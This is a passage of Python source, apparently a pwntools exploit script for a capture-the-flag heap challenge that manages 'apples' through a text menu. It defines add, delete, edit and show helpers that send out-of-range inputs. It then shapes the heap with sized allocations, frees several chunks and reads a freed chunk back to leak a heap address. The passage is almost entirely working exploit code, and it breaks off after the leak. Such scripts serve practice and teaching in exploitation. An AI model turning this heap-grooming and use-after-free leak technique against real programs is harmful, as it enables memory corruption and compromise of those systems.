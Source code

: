 ```python
	cn.sendline('1')
	cn.recvuntil('color?(0:red, 1:green):')
	cn.sendline('0')
	cn.recvuntil('value?(0-999):')
	cn.sendline('0')
	cn.recvuntil('num?(0-16)')
	cn.sendline('0')
	cn.recvuntil('description length?(1-1024):')
	cn.sendline(str(Len))
	cn.recvuntil('description of the apple:')
	cn.sendline(con)

def dele(idx):
	cn.recvuntil('your choice:')
	cn.sendline('2')
	cn.recvuntil('which?(0-15):')
	cn.sendline(str(idx))

def edit(idx, con):
	cn.recvuntil('your choice:')
	cn.sendline('3')
	cn.recvuntil('which?(0-15):')
	cn.sendline(str(idx))
	cn.recvuntil('color?(0:red, 1:green):')
	cn.sendline('2')
	cn.recvuntil('value?(0-999):')
	cn.sendline('1000')
	cn.recvuntil('num?(0-16)')
	cn.sendline('17')
	cn.recvuntil('new description of the apple:')
	cn.sendline(con)

def show(idx):
	cn.recvuntil('your choice:')
	cn.sendline('4')
	cn.recvuntil('which?(0-15):')
	cn.sendline(str(idx))

add(0x10,'0')
add(0x10,'1')
add(0x10,'2')
add(0x3f0,'3')
add(0x80,'4')
add(0x3e0,'5')
add(0x10,'6')
add(0x80,'7')
add(0x10,'8')
add(0x40,'9')
add(0x10,'a')



dele(1)
dele(3)
dele(5)
add(0x400,'1')

show(3)

cn.recvuntil('description:')
heap = u64(cn.recvuntil('\n')[:-1].ljust(8,'\x00'))-0x540
success('heap: '+hex(heap))

```